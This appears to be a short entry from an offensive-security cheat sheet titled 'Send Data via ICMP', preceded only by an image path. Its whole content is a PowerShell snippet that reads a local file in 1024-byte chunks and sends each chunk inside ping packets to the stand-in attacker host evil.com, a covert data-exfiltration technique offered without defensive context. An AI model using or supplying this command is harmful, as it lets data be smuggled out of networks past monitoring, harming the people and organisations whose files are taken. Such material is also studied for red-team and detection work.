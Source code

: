 # Send Data via ICMP

- Ping

    ```powershell
    $ping = New-Object System.Net.Networkinformation.ping
    foreach($Data in Get-Content -Path C:\data.txt -Encoding Byte -ReadCount 1024) {$ping.Send("evil.com", 1500, $Data)}
    ```